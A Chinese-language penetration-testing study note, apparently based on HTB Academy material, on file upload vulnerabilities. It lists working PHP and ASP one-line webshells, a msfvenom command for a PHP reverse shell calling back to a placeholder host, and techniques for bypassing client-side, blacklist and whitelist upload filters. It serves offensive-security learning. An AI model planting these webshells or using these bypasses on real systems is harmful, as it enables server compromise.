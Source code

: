 #  File Upload Vulnerabilities
>[! warning ] 小節重點
>本章幾乎都是HTB academy 的內容，可以的
## 常用的webshell們
>[!warning ] 小節重點
>本章內容介紹常見的webshell、一句話木馬、好用的reverse shell、及其取得、產生來源。
- PHP一句話木馬
``` php
<?php system($_GET['cmd']); ?>
```
``` php
<?php system($_REQUEST['cmd']); ?>
```
``` php
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
<?php system($_GET['cmd']); ?> 
<?php system($_REQUEST['cmd']); ?> 
<?php echo exec($_GET['cmd']); ?> 
<?php echo shell_exec($_GET['cmd']); ?> 
<?php echo passthru($_GET['cmd']); ?>
```
- PHP Reverse Shell [吉哈伯連結](https://github.com/pentestmonkey/php-reverse-shell)
- .NET一句話木馬 (ASP)
``` asp
<% eval request('cmd') %>
```
- msfvenom 產生webshell
```
msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
```
## Client-Side Validation
>[!知識點]
>如果發現目標的過濾機制在前端的javascript或是html，可以利用burpsuit處理，或是直接移除html 程式碼裡面的function
## 黑名單過濾
>[!warning] 小節重點
>這邊提到的是後端針對附檔名的過濾，這邊嘗試做的是利用burpsuit把沒有在黑名單裡面的副檔名試出來。
- Extension ASP (PayloadAllTheThings) : [連結](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP)
- Extension PHP (PayloadAllTheThings) : [連結](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst)
- web-extensions (SecList) : [連結](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt)
## 白名單過濾
>[!warning] 小節重點
>白名單基本上會比較安全，這個章節我們主要是做三項:
>- Double Extensions
>- Reverse Double Extension
>-  Character Injection
- 以下程式碼是白名單過濾的範例
```php
$fileName = basename($_FILES["uploadFile"]["name"]);

if (!preg_match('^.*\.(jpg|jpeg|png|gif)', $fileName)) {
    echo "Only images are allowed";
    die();
}
```
### Double Extensions
>有些檢查機制只會過濾第一個附檔名，以php為例，把第一個副檔名後面加上.php來還是可以過得去過濾。